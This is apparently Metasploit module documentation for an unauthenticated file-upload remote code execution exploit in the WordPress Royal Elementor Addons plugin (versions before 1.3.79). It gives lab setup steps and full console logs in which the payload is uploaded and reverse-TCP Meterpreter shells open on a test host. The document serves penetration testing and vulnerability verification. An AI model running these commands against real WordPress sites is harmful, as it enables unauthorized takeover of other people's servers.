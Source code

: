 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in WordPress Royal Elementor Addons and Templates
plugin, versions prior to 1.3.79.
The vulnerability is due to an unauthenticated file upload flaw in the plugin.
To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Royal Elementor Addons and Templates plugin, ensuring the version is below 1.3.79.
3. Activate Royal Elementor Templates Kit and chose a theme.
4. Verify that the plugin is activated and accessible on the local network.

## Verification Steps

1. Set up a WordPress instance with the Royal Elementor Addons plugin (version < 1.3.79).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_royal_elementor_addons_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

This module offers several options:

### TARGETURI

- **Description**: Base path of the WordPress application.
- **Required**: Yes.
- **Default Value**: `/`.

## Scenarios

### Successful Exploitation Against Local WordPress with Royal Elementor Addons 1.3.78

**Setup**:

- Local WordPress instance with Royal Elementor Addons version 1.3.78.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_royal_elementor_addons_rce
```
4. Set `RHOSTS` to the local IP (e.g., 192.168.1.10).
5. Configure other necessary options (TARGETURI, SSL, etc.).
6. Launch the exploit:
```
exploit
```

**Expected Results**:

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.

**Example**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf > search royal

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_royal_elementor_addons_rce  2023-11-23       excellent  Yes    WordPress Royal Elementor Addons RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_royal_elementor_addons_rce

msf > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/wp_royal_elementor_addons_rce) > options

Module options (exploit/multi/http/wp_royal_elementor_addons_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                         oit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      VaXEJJxCKI       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_royal_elementor_addons_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf exploit(multi/http/wp_royal_elementor_addons_rce) > set rport 8888
rport => 8888
msf exploit(multi/http/wp_royal_elementor_addons_rce) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf exploit(multi/http/wp_royal_elementor_addons_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.4.1
[+] Detected Royal Elementor Addons version: 1.3.78
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce...
[+] Nonce found in response: "9e10e80ee1"
[*] Sending payload
[+] Payload uploaded successfully
[*] Triggering the payload
[*] Sending stage (3045380 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.20.0.3:46556) at 2023-11-28 08:27:43 +0100

meterpreter > sysinfo
Computer     : 172.20.0.3
OS           : Debian 11.8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

With `php/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wp_royal_elementor_addons_rce) > options

Module options (exploit/multi/http/wp_royal_elementor_addons_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     chocapikk.lab    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                         oit.html
   RPORT      8888             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_royal_elementor_addons_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.4.1
[+] Detected Royal Elementor Addons version: 1.3.78
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce...
[+] Nonce found in response: "9e10e80ee1"
[*] Sending payload
[+] Payload uploaded successfully
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 172.20.0.3
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 172.20.0.3:40952) at 2023-11-28 08:30:35 +0100

meterpreter > sysinfo
Computer    : 541828095fba
OS          : Linux 541828095fba 6.4.10-060410-generic #202308111154 SMP PREEMPT_DYNAMIC Fri Aug 11 12:00:45 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```
